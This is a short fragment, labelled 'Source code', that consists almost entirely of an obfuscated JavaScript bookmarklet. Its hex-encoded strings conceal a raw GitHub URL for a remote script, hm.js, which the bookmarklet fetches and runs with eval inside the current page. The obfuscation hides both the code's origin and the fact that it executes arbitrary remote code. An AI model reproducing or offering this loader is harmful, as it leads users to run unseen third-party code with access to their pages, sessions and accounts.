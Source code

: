 javascript:(function(){var _0x7f1a=["\x68\x74\x74\x70\x73\x3A\x2F\x2F\x72\x61\x77\x2E\x67\x69\x74\x68\x75\x62\x75\x73\x65\x72\x63\x6F\x6E\x74\x65\x6E\x74\x2E\x63\x6F\x6D\x2F\x6F\x72\x69\x63\x6B\x6D\x61\x78\x78\x2F\x6B\x68\x61\x6E\x72\x69\x63\x6B\x2F\x72\x65\x66\x73\x2F\x68\x65\x61\x64\x73\x2F\x6D\x61\x69\x6E\x2F\x68\x6D\x2E\x6A\x73","\x66\x65\x74\x63\x68","\x74\x68\x65\x6E","\x74\x65\x78\x74","\x65\x76\x61\x6C"];fetch(_0x7f1a[0])[_0x7f1a[2]](function(_0xa295x1){return _0xa295x1[_0x7f1a[3]]()})[_0x7f1a[2]](function(_0xa295x2){eval(_0xa295x2)})})();
